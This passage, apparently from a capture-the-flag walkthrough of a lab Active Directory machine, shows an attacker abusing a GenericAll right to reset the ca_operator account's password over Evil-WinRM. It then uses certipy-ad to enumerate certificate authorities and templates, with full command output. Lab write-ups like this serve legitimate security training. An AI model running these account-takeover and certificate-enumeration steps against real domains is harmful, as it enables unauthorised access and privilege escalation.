<img src="Imgs/image3.png" alt="error loading image">  

Now we know that **management_svc** has **GenericAll** on **ca_operator**, so we change the password of **ca_operator**.

```jsx
Evil-WinRM* PS C:\Users\management_svc\Desktop> 
*Evil-WinRM* PS C:\Users\management_svc\Desktop> 
*Evil-WinRM* PS C:\Users\management_svc\Desktop> net user CA_Operator HelloCa /domain

The command completed successfully.

*Evil-WinRM* PS C:\Users\management_svc\Desktop>
```

Now, enumerate Certificate Authorities (CAs) and their templates.  
Search for vulnerable Certificate Authority (CA) configurations in Active Directory.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad find -u "ca_operator" -p "HelloCa" -dc-ip 10.10.11.41 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.11.41:636 - ssl
[+] Default path: DC=certified,DC=htb
[+] Configuration path: CN=Configuration,DC=certified,DC=htb
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[+] Trying to resolve 'DC01.certified.htb' at '10.10.11.41'
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.10.11.41
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'DC01.certified.htb' (10.10.11.41)
[*] Got CA configuration for 'certified-DC01-CA'
```